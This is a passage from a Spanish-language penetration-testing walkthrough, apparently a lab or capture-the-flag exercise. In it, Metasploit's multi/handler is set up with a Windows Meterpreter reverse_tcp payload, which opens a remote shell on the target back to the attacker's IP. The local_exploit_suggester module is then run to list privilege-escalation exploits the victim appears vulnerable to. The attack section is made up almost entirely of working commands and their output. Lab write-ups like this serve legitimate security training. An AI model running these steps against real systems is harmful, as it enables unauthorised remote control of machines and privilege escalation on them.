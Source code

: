 * Entra en el **Metasploit Framework**, configura el **modulo multi/handler** para obtener una sesión en **meterpreter** y ejecuta el Payload cargado en la página web:
```bash
msfconsole
.
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
.
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST Tu_IP
LHOST => Tu_IP
msf6 exploit(multi/handler) > set LPORT 4242
LPORT => 4242
msf6 exploit(multi/handler) > exploit
.
[*] Started reverse TCP handler on Tu_IP:4242 
[*] Sending stage (175686 bytes) to 10.10.10.5
[*] Meterpreter session 1 opened (Tu_IP:4242 -> 10.10.10.5:49160)
.
meterpreter >
```

<br>

<h3 id="Suggester">Usando Módulo de Metasploit para Encontrar Vulnerabilidades dentro de la Máquina Víctima</h3>

Excelente, para este caso, vamos a usar un módulo que nos dara los Exploits a los que es posible que sea vulnerable la máquina víctima:
```bash
msf6 exploit(multi/handler) > search suggester

Matching Modules
================

   #  Name                                      Disclosure Date  Rank    Check  Description
   -  ----                                      ---------------  ----    -----  -----------
   0  post/multi/recon/local_exploit_suggester                   normal  No     Multi Recon Local Exploit Suggester

msf6 exploit(multi/handler) > use post/multi/recon/local_exploit_suggester
msf6 post(multi/recon/local_exploit_suggester) >
```

Cargamos la sesión que tenemos activa y ejecutamos el módulo:
```bash
msf6 post(multi/recon/local_exploit_suggester) > set SESSION 1
SESSION => 1
msf6 post(multi/recon/local_exploit_suggester) > exploit

[*] 10.10.10.5 - Collecting local exploits for x86/windows...
[*] 10.10.10.5 - 181 exploit checks are being tried...
[+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms10_092_schelevator: The service is running, but could not be validated.
[+] 10.10.10.5 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.5 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
```
